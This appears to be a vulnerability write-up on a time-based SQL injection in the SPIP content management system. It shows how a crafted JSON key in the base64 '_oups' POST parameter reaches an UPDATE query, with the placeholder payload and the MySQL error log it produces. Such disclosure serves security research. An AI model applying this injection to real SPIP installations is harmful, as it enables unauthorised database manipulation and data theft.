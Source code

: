 
Local setup : SPIP docker setup from https://github.com/Abyss-W4tcher/ab4yss-wr4iteups

Privileges : "editor" or equivalent

Provided payload are valid for both "4.1.5" and earlier as well as the master branch.

---

## "dev" master branch, "json_decode" version

## TIME BASED SQLi

"Ooops" is a button that allows a user to cancel an action (the deletion of an article author here).

`_oups` POST parameter sent when clicking the "Ooops" button (base64 decoded) :
```json
[
    {
        "id_auteur":"1",
        "id_objet":"1",
        "objet":"article",
        "vu":"0",
        "auteur":"1",
        "article":"1"
    }
]
```
This will restore the author as the article author.

After further investigations, it is possible to inject an SQLi payload, with this reduced JSON dictionnary : 

```json
{
    "objet":"article",
    "auteur":"1",
    "article":"1",
    "{{SQLi}}":""
}
```

Here is the generated error in `tmp/log/mysql.log` after sending the previous payload :

```sql
[DATETIME] [IP] [PID] :Pri:ERREUR: Erreur 1064 de mysql: You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '{{SQLi}}=''
WHERE id_auteur=1
	AND objet='article'
	AND id_objet=1' at line 2
in /var/www/html/ecrire/action/editer_liens.php L930 [sql_updateq(),lien_set(),objet_traiter_liaisons(),objet_qualifier_liens(),objet_associer(),formulaires_editer_liens_traiter_dist(),traiter_formulaires_dynamiques()]
UPDATE `spip`.spip_auteurs_liens
SET {{SQLi}}=''
WHERE id_auteur=1
	AND objet='article'
	AND id_objet=1
```
